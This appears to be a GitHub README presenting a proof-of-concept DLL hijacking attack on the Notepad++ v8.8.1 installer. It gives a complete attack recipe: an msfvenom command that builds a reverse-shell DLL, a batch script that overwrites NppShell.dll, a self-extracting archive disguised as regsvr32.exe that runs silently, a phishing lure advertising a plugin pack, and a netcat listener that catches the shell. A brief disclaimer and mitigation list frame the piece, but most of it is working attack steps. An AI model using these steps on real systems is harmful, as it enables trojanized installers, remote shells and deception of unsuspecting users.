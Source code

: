 # test-notepad-v8.8.1
this is what i do, and at the same time im learning too from everyone

"Here’s a new plugin pack for Notepad++ to improve your coding productivity! Download it now 💡✨"
yes it is pack with real installer and regsvr32.exe , and yes the attack starts there, phishing and social engineering at its best

# DLL Hijacking in Notepad++ v8.8.1: A Practical PoC Write-up

# Introduction
I tried demonstrate a proof-of-concept (PoC) exploit targeting Notepad++ v8.8.1, which is vulnerable to DLL hijacking via the NppShell.dll component(you also can try with others dll files within the notepad installer). This PoC shows how an attacker can achieve arbitrary code execution by planting a malicious DLL and tricking the application into loading it.

⚠️ Disclaimer: This write-up is for educational purposes only. Always test in isolated environments and never target unauthorized systems.

# What is DLL hijacking?
DLL hijacking is a well-known attack technique where an application loads a malicious DLL instead of a legitimate one due to insecure search paths or missing integrity checks. Once the application loads the malicious DLL, attacker-controlled code executes in the context of the application.

🛠️ Environment setup
Victim machine: Windows 11 with Notepad++ v8.8.1 installed

Attacker machine: Kali Linux (any ver)

Tools used: msfvenom, batch scripting, WinRAR (SFX builder)

#  Step-by-step exploit process
1️⃣ Create the malicious NppShell.dll
On Kali, generate a reverse shell DLL payload using msfvenom:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll -o NppShell.dll

2️⃣ Prepare an installer batch script
Write a simple install.bat:

echo off
cls
copy /Y NppShell.dll "C:\Program Files\Notepad++\contextMenu\NppShell.dll"
This script overwrites the legitimate NppShell.dll in Notepad++.

3️⃣ Bundle files using SFX archive
Bundle NppShell.dll and install.bat into a self-extracting (SFX) archive named regsvr32.exe.

Configure SFX to automatically run install.bat after extraction.

4️⃣ Deploy and execute

Place the Notepad++ v8.8.1 installer and the malicious regsvr32.exe in the same directory on the victim machine.

5️⃣ Trigger execution

The victim simply double-clicks the Notepad++ installer. Simultaneously, the crafted regsvr32.exe is launched stealthily, executing install.bat to overwrite NppShell.dll with the backdoored DLL.
Because the SFX configuration runs the batch script silently, the victim does not see any additional windows or warnings.
When Notepad++ installed, it automatically loads NppShell.dll. Because it now points to the attacker DLL, your reverse shell connects back to your Kali listener.

6️⃣ Boom! 🎯
On your Kali machine, listen for the shell:

nc -lvnp <attacker_port>
Once Notepad++ installed, connection established — you now have code execution on the victim.

💥 Impact
This attack enables local privilege escalation or persistence if combined with initial access.

🛡️ Mitigation
Always upgrade to latest Notepad++ version 

Remove old or unused DLL files.

Apply strict file system permissions to prevent unauthorized modifications.

 # Important Notes ⚠️ 
This PoC only works during the installation phase.
It requires the victim to execute a trojanized installer package that includes your malicious DLL and script.
It does not work on already installed and running Notepad++ software if it was installed correctly before.

thankyouu!
